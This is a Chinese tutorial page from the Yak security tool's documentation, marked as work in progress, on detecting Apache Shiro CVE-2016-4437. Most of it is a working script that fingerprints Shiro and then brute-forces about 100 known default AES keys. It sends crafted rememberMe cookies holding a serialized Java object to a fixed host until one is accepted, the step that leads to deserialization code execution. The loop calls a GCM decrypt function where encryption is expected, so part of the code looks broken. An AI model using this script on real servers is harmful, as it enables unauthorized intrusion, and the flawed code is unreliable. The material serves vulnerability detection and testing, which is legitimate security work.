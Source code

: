---
sidebar_position: 4
---

# Shiro CVE-2016-4437（WIP）

阅读本文前，请先确保已经熟悉 [ThinkPHP-5.0.25-RCE](/products/article/best-practice/thinkphp-case) 中相关内容

本篇中将会涉及到 Shiro 这类比较复杂的漏洞检测，我们将完全通过 `Yak` 内部的模块完成该模块

:::caution Work In Progress

更详细的编码教程与解读我们将在后续补充

:::

## 原代码

```go
log.setLevel("info")
isHttps = cli.Bool("https")

// 构建 shiro 基础请求
baseFreq := fuzz.HTTPRequest(`GET / HTTP/1.1
Host: example.com
Connection: close

`)[0].FuzzHTTPHeader("Host", "cybertunnel.run:8080")

// 发送数据包，取一下指纹结果
result = baseFreq.FuzzCookie("rememberMe", "{{rs(10)}}").ExecFirst(
    httpool.https(isHttps), httpool.redirectTimes(4),
)[0]
die(result.Error)

url, reqRaw, rspRaw = result.Url, result.RequestRaw, result.ResponseRaw

// 检查指纹
headers, body := str.SplitHTTPHeadersAndBodyFromPacket(rspRaw)
if !str.MatchAnyOfSubString(headers, "rememberMe=deleteMe;") {
    die("no shiro detected")
}

log.info("shiro on %v detected", url)
log.info("start to check key")

// 指纹检测工程，接下来准备猜 key
keys = [
    "kPH+bIxk5D2deZiIxcaaaA==",
    "4AvVhmFLUs0KTA3Kprsdag==",
    "Z3VucwAAAAAAAAAAAAAAAA==",
    "fCq+/xW488hMTCD+cmJ3aQ==",
    "0AvVhmFLUs0KTA3Kprsdag==",
    "1AvVhdsgUs0FSA3SDFAdag==",
    "1QWLxg+NYmxraMoxAXu/Iw==",
    "25BsmdYwjnfcWmnhAciDDg==",
    "2AvVhdsgUs0FSA3SDFAdag==",
    "3AvVhmFLUs0KTA3Kprsdag==",
    "3JvYhmBLUs0ETA5Kprsdag==",
    "r0e3c16IdVkouZgk1TKVMg==",
    "5aaC5qKm5oqA5pyvAAAAAA==",
    "5AvVhmFLUs0KTA3Kprsdag==",
    "6AvVhmFLUs0KTA3Kprsdag==",
    "6NfXkC7YVCV5DASIrEm1Rg==",
    "6ZmI6I2j5Y+R5aSn5ZOlAA==",
    "cmVtZW1iZXJNZQAAAAAAAA==",
    "7AvVhmFLUs0KTA3Kprsdag==",
    "8AvVhmFLUs0KTA3Kprsdag==",
    "8BvVhmFLUs0KTA3Kprsdag==",
    "9AvVhmFLUs0KTA3Kprsdag==",
    "OUHYQzxQ/W9e/UjiAGu6rg==",
    "a3dvbmcAAAAAAAAAAAAAAA==",
    "aU1pcmFjbGVpTWlyYWNsZQ==",
    "bWljcm9zAAAAAAAAAAAAAA==",
    "bWluZS1hc3NldC1rZXk6QQ==",
    "bXRvbnMAAAAAAAAAAAAAAA==",
    "ZUdsaGJuSmxibVI2ZHc9PQ==",
    "wGiHplamyXlVB11UXWol8g==",
    "U3ByaW5nQmxhZGUAAAAAAA==",
    "MTIzNDU2Nzg5MGFiY2RlZg==",
    "L7RioUULEFhRyxM7a2R/Yg==",
    "a2VlcE9uR29pbmdBbmRGaQ==",
    "WcfHGU25gNnTxTlmJMeSpw==",
    "OY//C4rhfwNxCQAQCrQQ1Q==",
    "5J7bIJIV0LQSN3c9LPitBQ==",
    "f/SY5TIve5WWzT4aQlABJA==",
    "bya2HkYo57u6fWh5theAWw==",
    "WuB+y2gcHRnY2Lg9+Aqmqg==",
    "kPv59vyqzj00x11LXJZTjJ2UHW48jzHN",
    "3qDVdLawoIr1xFd6ietnwg==",
    "ZWvohmPdUsAWT3=KpPqda",
    "YI1+nBV//m7ELrIyDHm6DQ==",
    "6Zm+6I2j5Y+R5aS+5ZOlAA==",
    "2A2V+RFLUs+eTA3Kpr+dag==",
    "6ZmI6I2j3Y+R1aSn5BOlAA==",
    "SkZpbmFsQmxhZGUAAAAAAA==",
    "2cVtiE83c4lIrELJwKGJUw==",
    "fsHspZw/92PrS3XrPW+vxw==",
    "XTx6CKLo/SdSgub+OPHSrw==",
    "sHdIjUN6tzhl8xZMG3ULCQ==",
    "O4pdf+7e+mZe8NyxMTPJmQ==",
    "HWrBltGvEZc14h9VpMvZWw==",
    "rPNqM6uKFCyaL10AK51UkQ==",
    "Y1JxNSPXVwMkyvES/kJGeQ==",
    "lT2UvDUmQwewm6mMoiw4Ig==",
    "MPdCMZ9urzEA50JDlDYYDg==",
    "xVmmoltfpb8tTceuT5R7Bw==",
    "c+3hFGPjbgzGdrC+MHgoRQ==",
    "ClLk69oNcA3m+s0jIMIkpg==",
    "Bf7MfkNR0axGGptozrebag==",
    "1tC/xrDYs8ey+sa3emtiYw==",
    "ZmFsYWRvLnh5ei5zaGlybw==",
    "cGhyYWNrY3RmREUhfiMkZA==",
    "IduElDUpDDXE677ZkhhKnQ==",
    "yeAAo1E8BOeAYfBlm4NG9Q==",
    "cGljYXMAAAAAAAAAAAAAAA==",
    "2itfW92XazYRi5ltW0M2yA==",
    "XgGkgqGqYrix9lI6vxcrRw==",
    "ertVhmFLUs0KTA3Kprsdag==",
    "5AvVhmFLUS0ATA4Kprsdag==",
    "s0KTA3mFLUprK4AvVhsdag==",
    "hBlzKg78ajaZuTE0VLzDDg==",
    "9FvVhtFLUs0KnA3Kprsdyg==",
    "d2ViUmVtZW1iZXJNZUtleQ==",
    "yNeUgSzL/CfiWw1GALg6Ag==",
    "NGk/3cQ6F5/UNPRh8LpMIg==",
    "4BvVhmFLUs0KTA3Kprsdag==",
    "MzVeSkYyWTI2OFVLZjRzZg==",
    "CrownKey==a12d/dakdad",
    "empodDEyMwAAAAAAAAAAAA==",
    "A7UzJgh1+EWj5oBFi+mSgw==",
    "YTM0NZomIzI2OTsmIzM0NTueYQ==",
    "c2hpcm9fYmF0aXMzMgAAAA==",
    "i45FVt72K2kLgvFrJtoZRw==",
    "U3BAbW5nQmxhZGUAAAAAAA==",
    "ZnJlc2h6Y24xMjM0NTY3OA==",
    "Jt3C93kMR9D5e8QzwfsiMw==",
    "MTIzNDU2NzgxMjM0NTY3OA==",
    "vXP33AonIp9bFwGl7aT7rA==",
    "V2hhdCBUaGUgSGVsbAAAAA==",
    "Z3h6eWd4enklMjElMjElMjE=",
    "Q01TX0JGTFlLRVlfMjAxOQ==",
    "ZAvph3dsQs0FSL3SDFAdag==",
    "Is9zJ3pzNh2cgTHB4ua3+Q==",
    "NsZXjXVklWPZwOfkvk6kUA==",
    "GAevYnznvgNCURavBhCr1w==",
    "66v1O8keKNV3TTcGPK1wzg==",
    "SDKOLKn2J1j/2BHjeZwAoQ==",
]

data = codec.DecodeHex(`aced0005737200326f72672e6170616368652e736869726f2e7375626a6563742e53696d706c655072696e636970616c436f6c6c656374696f6ea87f5825c6a3084a0300014c000f7265616c6d5072696e636970616c7374000f4c6a6176612f7574696c2f4d61703b78707077010078`)[0]

cookies = make([]string)
for _, key = range keys {
    for _, rs = range [
        codec.AESCBCEncrypt,
        codec.AESGCMDecrypt,
    ] {
        keyBytes = codec.DecodeBase64(key)[0]
        res, err := rs(keyBytes, data, nil)
        if err != nil {
            println(err)
            continue
        }
        cookieRaw = append(keyBytes, res...)
        base64dK := codec.EncodeBase64(cookieRaw)
        cookies = append(cookies, base64dK)
    }
}

println("start go fuzz rememberMe")
r, err := baseFreq.FuzzCookie("rememberMe", cookies).Exec(httpool.https(isHttps), httpool.size(3))
die(err)

keyFoundResult = var
for result = range r {
    if result.Error != nil {
        continue
    }
    header, body = str.SplitHTTPHeadersAndBodyFromPacket(result.ResponseRaw)
    if str.MatchAllOfSubString(header, "rememberMe=deleteMe") {
        continue
    }
    keyFoundResult = result
    break
}

// keyFoundResult
println(string(keyFoundResult.RequestRaw))
```